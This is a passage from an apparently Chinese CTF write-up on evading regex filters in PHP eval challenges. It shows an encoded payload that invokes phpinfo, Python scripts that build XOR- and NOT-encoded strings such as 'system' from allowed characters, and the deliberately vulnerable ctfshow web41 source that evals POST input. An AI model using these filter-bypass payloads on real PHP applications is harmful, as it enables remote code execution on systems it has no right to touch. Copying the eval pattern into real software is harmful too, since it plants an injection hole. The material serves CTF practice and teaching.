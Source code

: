 ${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&ff=phpinfo

用python

```python
#Author: piCEBDC7
str_= 'system'
str_=list(str_)
final=''
for x in str_:
    print(hex(~ord(x)&0xff))
    final+=hex(~ord(x)&0xff)
print(str_)
final = final.replace('0x','%')
final+='^'
for x in range(len(str_)):
    final+=r'%ff'
print(final)
12345678910111213
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201112171319614.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0NjU3ODk5,size_16,color_FFFFFF,t_70#pic_center)
不可见字符异或（python3）

```python
payload="phpinfo"
allowed="ABCHIJKLMNQRTUVWXYZ\]^abchijklmnqrtuvwxyz}~!#%*+-/:;<=>?@"# no ()
reth=""
rett=""
for c in payload:
    flag=False
    for i in allowed:
        if flag == False:
            for j in allowed:
                if ord(i)^ord(j)==ord(c):
                    #print("i=%s j=%s c=%s"%(i,j,c))
                    reth=reth+"%"+str(hex(ord(i)))[2:]
                    rett=rett+"%"+str(hex(ord(j)))[2:]
                    flag=True
                    break
ret=reth+"^"+rett

print(ret)
123456789101112131415161718
```

三、或运算：

示例：ctfshow-web41

```bash
 <?php
if(isset($_POST['c'])){
    $c = $_POST['c'];
if(!preg_match('/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i', $c)){
        eval("echo($c);");
    }
}else{
    highlight_file(__FILE__);
}
?> 
12345678910
```
